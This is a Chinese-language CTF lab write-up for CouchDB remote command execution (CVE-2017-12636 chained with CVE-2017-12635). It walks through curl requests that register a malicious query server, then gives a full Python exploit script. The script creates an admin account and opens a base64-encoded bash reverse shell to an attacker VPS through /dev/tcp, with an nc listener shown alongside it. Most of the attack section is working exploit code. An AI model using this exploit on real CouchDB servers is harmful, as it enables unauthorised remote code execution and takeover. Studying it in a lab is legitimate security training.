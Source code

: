 # Couchdb 任意命令执行漏洞（CVE-2017-12636）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞概述

CVE-2017-12636是由于数据库自身设计原因，管理员身份可以通过HTTP（S）方式，配置数据库。在某些配置中，可设置可执行文件的路径，在数据库运行范围内执行。结合CVE-2017-12635可实现远程代码执行。

## writeup
访问靶场地址

![](http://picture.mzxh.xyz/20200515111605.png)

可以看到couchdb版本是1.6.0

访问https://靶场地址/_utils/

![](http://picture.mzxh.xyz/20200515111756.png)

提示所有人均为管理员

点击Fix this 创立管理员

![](http://picture.mzxh.xyz/20200515111844.png)

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/vultest'
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://admin:admin@ctf.mzxh.xyz:58512/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

>`ctf.mzxh.xyz:58512`为你的靶场访问地址
> 第一个请求是添加一个名字为cmd的query_servers，`admin:admin`为你刚刚创建的管理员账号：密码；`id >/tmp/success`为你要执行的命令
> 第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。
> 第四个请求就是在这个Database里进行查询，因为我将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行。

![](http://picture.mzxh.xyz/20200515112457.png)

可以看到生成了success文件中包含了id返回信息

![](http://picture.mzxh.xyz/20200515112524.png)

### 反弹shell

注意：直接反弹shell不成功。反弹Shell的命令，在经过数据库处理时被截断，不能直接执行，

所以这里直接用exp打

攻击机开启一个端口监听

```
nc -lvp 7777
```
![](http://picture.mzxh.xyz/20200515190126.png)

运行exp脚本（需要修改下面几处）

> target = 你靶场的地址
> command = rb"""sh -i >& /dev/tcp/你公网vps地址/端口 0>&1"""
> version = 1(版本号1.x版本选1 2.x版本选2)

```
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://ctf.mzxh.xyz:47787'
command = rb"""sh -i >& /dev/tcp/***.***.***.***/7777 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

![](http://picture.mzxh.xyz/20200515113359.png)
